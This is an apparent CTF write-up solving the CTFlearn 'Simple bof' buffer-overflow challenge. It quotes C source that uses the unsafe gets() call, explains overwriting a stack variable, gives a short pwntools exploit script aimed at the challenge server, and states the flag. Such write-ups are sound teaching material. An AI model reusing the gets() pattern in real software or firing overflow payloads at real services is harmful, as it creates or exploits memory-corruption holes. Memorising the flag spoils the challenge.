


## Simple bof
The main idea of finding the flag is Buffer Overflow.

#### Step-1:
After I netcat into `nc thekidofarcrania.com 4902` I got this:



#### Step-2:
Also we are given this `bof.c` which is given as follows:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Defined in a separate source file for simplicity.
void init_visualize(char* buff);
void visualize(char* buff);
void safeguard();

void print_flag();

void vuln() {
  char padding[16];
  char buff[32];
  int notsecret = 0xffffff00;
  int secret = 0xdeadbeef;

  memset(buff, 0, sizeof(buff)); // Zero-out the buffer.
  memset(padding, 0xFF, sizeof(padding)); // Zero-out the padding.

  // Initializes the stack visualization. Don't worry about it!
  init_visualize(buff); 

  // Prints out the stack before modification
  visualize(buff);

  printf("Input some text: ");
  gets(buff); // This is a vulnerable call!

  // Prints out the stack after modification
  visualize(buff); 

  // Check if secret has changed.
  if (secret == 0x67616c66) {
    puts("You did it! Congratuations!");
    print_flag(); // Print out the flag. You deserve it.
    return;
  } else if (notsecret != 0xffffff00) {
    puts("Uhmm... maybe you overflowed too much. Try deleting a few characters.");
  } else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
  } else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
  }

  exit(0);
}

int main() {
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  safeguard();
  vuln();
}
```

#### Step-3:
To begin with, we are given 2 character arrays - one with size 16 (padding) and one with size 32 (buff). After the  `printf` call, the program uses `gets` and copies the content in the buff character array, and mere presence of `gets` makes it very vulnerable to buffer overflows attacks. Also, we do a check to see if secret is equal to  `0x67616c66`. Because the secret variable is defined after the buff variable we might be able to overwrite the contents of that variable to what we want, which in this case is this value: `0x67616c66`.


#### Step-4:

So, I wrote the following script `exploit.py` to perform Buffer Overflow to get the flag.
Here, `secret` is the string which we want to overflow with value which we want to overwrite. Also `p32()` function packs the value in a little endian format.

```py
from pwn import *

padding = b"\x41" * 48
secret = p32(0x67616c66)

p = remote("thekidofarcrania.com", 35235)
p.recv()
p.sendline(padding + secret)
p.interactive()
```

#### Step-5:
On execution of this script using `python3 exploit.py`, we get the following output:



#### Step-6:
Finally, the flag becomes: 
`CTFlearn{buffer_0verflows_4re_c00l!}`